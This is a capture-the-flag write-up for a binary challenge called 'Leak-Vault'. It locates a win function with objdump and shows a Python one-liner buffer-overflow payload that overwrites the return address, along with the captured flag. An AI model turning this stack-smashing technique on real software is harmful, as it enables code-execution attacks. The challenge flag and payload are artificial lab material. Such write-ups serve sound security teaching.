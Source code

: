 Leak-Vault Writeup

This binary challenge requires executing the win function by leveraging a buffer overflow vulnerability and using the function's address.
Steps to Solve
1. Identify the win Function Address

To locate the address of the win function, I used objdump to disassemble the binary and searched for the win function:
bash
Copy

`┌──(myenv)─(zwique㉿kali)-[~/Downloads]
└─$ objdump -d leaky_vault | grep win
000000000040084c <win>:
  400874:       540000c1        b.ne    40088c <win+0x40>  // b.any
`
The address of the win function is 0x40084c.
2. Exploit the Buffer Overflow

The binary appears to have a buffer overflow vulnerability. By providing an input longer than the buffer size, we can overwrite the return address on the stack with the address of the win function.

I crafted a payload consisting of:

    72 bytes of filler (to fill the buffer and overwrite the saved return address).

    The address of the win function (0x40084c) in little-endian format.

The payload was generated using Python

```┌──(zwique㉿kali)-[~/Downloads]
└─$ python3 -c 'print("A" * 72 + "\x4c\x08\x40\x00\x00\x00\x00\x00")' | ./leaky_vault

3. Execute the Exploit

When the payload is passed to the binary, it successfully overwrites the return address and executes the win function:
Copy

Enter your input: You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@
uacCTF{m3m9ry_l2ak_3xpl0it_CS1410}

The flag is: uacCTF{m3m9ry_l2ak_3xpl0it_CS1410}.
```
Alternative: Using an Exploit Script

┌──(zwique㉿kali)-[~/Downloads]
└─$ python3 exp.py

Conclusion

This challenge demonstrates a classic buffer overflow exploit, where overwriting the return address with the address of a desired function (win) leads to successful execution. Understanding memory layout and function addresses is key to solving such problems.
